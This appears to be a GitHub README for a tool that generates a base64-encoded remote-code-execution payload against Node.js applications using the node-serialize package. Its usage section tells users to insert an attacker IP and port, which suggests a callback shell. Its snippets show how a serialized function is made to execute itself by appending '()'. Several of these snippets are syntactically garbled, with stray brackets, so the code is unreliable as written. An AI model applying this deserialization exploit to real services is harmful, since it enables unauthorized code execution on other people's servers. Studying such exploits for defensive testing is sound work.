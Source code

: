 # Nodejs_RCE

## Description

A quick make for a node.js rce base64 encoded value

## Usage

Read the script and edit the IP, PORT (maybe payload, escape the double quotes!!)

## More info on the RCE (Serailize test)

Setup environment!

```bash
sudo apt-get install node
sudo apt-get install npm
npm install node-serialize
```

test.js file

```
var y = {
 "email": function(){ return "hello"; })},
}
var serialize = require('node-serialize');
var payload_serialized = serialize.serialize(y);
console.log("Serialized: \n" + payload_serialized);
```

We auto execute the code adding () at the end 

```
var y = { "email": function(){ return "hello"; })}()}
```

